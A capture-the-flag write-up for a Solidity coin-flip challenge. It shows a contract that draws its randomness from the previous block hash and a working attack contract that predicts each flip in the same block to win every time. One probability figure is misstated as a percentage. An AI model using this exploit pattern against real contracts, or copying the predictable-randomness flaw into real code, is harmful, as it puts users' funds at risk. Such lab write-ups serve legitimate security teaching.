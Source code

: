 This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

-   See the Help page above, section "Beyond the console"

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```




**SOLUTION:**

The goal of this level is to guess result of `side` correctly 10 times in a row. The chance of this happening is 0.5^10 or 0.0009765625% which _could_ happen but very very unlikely. 

Fortunately for us, the contract has a flaw with their flipping algorithm, specifically relying on `block.number` as a form of randomness. A malicious user can always calculate the correct answer if they run the same algorithm in their attack function before calling your flip function. 

We can find the contract address but typing "contract" in the Developer Console. In out case is `0x3Fa0b72EC0f46192a09C2cc229d822EA72a711c6`

We deploy the following contract on remix (with Injected Provider) and call the `attack` function to take over the victim contract. The transaction must be confirmed.

```
pragma solidity ^0.8.0;

contract AttackCoinflip {
    address victim = 0x3Fa0b72EC0f46192a09C2cc229d822EA72a711c6;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function attack() public {
        // This is the same algorithm that is used by the victim contract
        // I am calculating the value for side before calling the victim contract.
        // This will always be correct because both functions are called in the same block.
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        // Normally you would use import the contract here so that you can call the
        // function directly but if you're lazy like me, you call call the function
        // like this as well. This approach is useful for when you don't have access
        // to the source code of the contract you want to interact with.
        bytes memory payload = abi.encodeWithSignature("flip(bool)", side);
        (bool success, ) = victim.call{value: 0 ether}(payload);
        require(success, "Transaction call using encodeWithSignature is successful");
    }
}
```


We verify that we solved the challenge by clicking the "Submit Instance" button, verifying the transaction and waiting to be confirmed.


